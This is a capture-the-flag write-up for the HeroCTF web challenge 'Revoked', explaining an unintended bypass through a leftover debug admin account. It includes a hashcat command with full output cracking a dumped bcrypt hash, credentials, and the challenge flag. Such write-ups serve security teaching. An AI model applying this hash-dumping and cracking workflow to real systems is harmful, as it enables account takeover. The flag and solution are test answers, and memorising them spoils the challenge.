

# Revoked

### Category

Web

### Difficulty

Medium

### Author

Log_s

### Description

Your budget request for the new company personnel index has been declined. Instead, the intern has received a very small bonus in exchange for a homemade solution.

Show them their stinginess could cost them.

DEPLOY: [https://deploy.heroctf.fr](https://deploy.heroctf.fr)

### Files

- [main.py](challenge/app/main.py)

### Write Up

For the intended solve (and the actually intersting one), checkout the write-up [here](/Web/revoked_revenge). This is the write-up of the bypass method, because of the presence of a debug admin account I left by mistake in challenge.

Using the SQLi (explained in the other write-up), we can access the database and dump user password hashes. The account "admin1" has a weak password:
```
$ hashcat -m 3200 -a 0 '$2b$12$x5yP2tcbr/OcyTnIRohq7.PHyOtZMPt4THrm6cKHIrta9tSk141ke' ./rockyou.txt
[...]
$2b$12$x5yP2tcbr/OcyTnIRohq7.PHyOtZMPt4THrm6cKHIrta9tSk141ke:pass

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2b$12$x5yP2tcbr/OcyTnIRohq7.PHyOtZMPt4THrm6cKHIrta...k141ke
Time.Started.....: Sun Nov 30 17:17:04 2025 (13 mins, 5 secs)
Time.Estimated...: Sun Nov 30 17:30:09 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (./rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       46 H/s (10.43ms) @ Accel:16 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 36096/14344385 (0.25%)
Rejected.........: 0/36096 (0.00%)
Restore.Point....: 35840/14344385 (0.25%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4088-4096
Candidate.Engine.: Device Generator
Candidates.#1....: siregar -> iloveme14
Hardware.Mon.#1..: Temp: 96c Util: 94%

Started: Sun Nov 30 17:17:00 2025
Stopped: Sun Nov 30 17:30:11 2025
```

It can take a little while depending on your hardware since 'pass' is at line 35921 in rockyou.txt and bcrypt is a rebust algorithm which takes time to compute.

Once we recovered the password, ce can connect as adminitrator with the credentials `admin1:pass` and get our flag.



```

### Flag

Hero{N0t_th4t_r3v0k3d_ec6dcf0ae6ae239c4d630b2f5ccb51bb}
